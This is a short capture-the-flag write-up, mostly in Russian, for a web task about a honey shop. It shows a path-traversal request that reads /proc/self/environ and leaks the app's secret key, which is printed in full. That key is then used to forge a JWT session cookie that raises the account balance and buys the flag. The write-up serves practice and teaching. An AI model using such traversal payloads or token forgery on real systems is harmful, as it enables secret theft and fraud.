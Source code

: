# Retiree Tendentions

  - Category: **web**
  - pozhiloy, author: @lbezvershenko

> Retiree people are slightly coming to the business these times, so Lil Granny opened her own honey shop. 
> She is also selling an old flag, which I really want to get for my collection. Can you buy it for me? 

> task.pase.ca:24068

### Write-up

Заходим на сайт, видим что мы можем покупать товары за баланс.
Также можно скачивать картинки по адресу

> http://task.pase.ca:24068/download?image=1.jpg

Пробуем lfi, скачиваем файл /proc/self/environ

> http://task.pase.ca:24068/download?image=/../../../../../../proc/self/environ

Видим в нём строчку SECRET_KEY=T6D_?Bhh]Dt_}*3uK)!4UkJObT}T-7ztv]Wg_vlPF9aUa!Pj#r.
Замечаем что информация о балансе и покупках пользователя хранится в куке с названием session в виде jwt токена.
Пробуем расшифровать, получаем

> {"balance": 1336,"purchases": []}

Создаём новый токен, подписанный уже известным нам секретным ключём с header равным

> {"balance": 1337,"purchases": []}

Заменяем куку, получаем 1337 баланса и покупаем флаг.
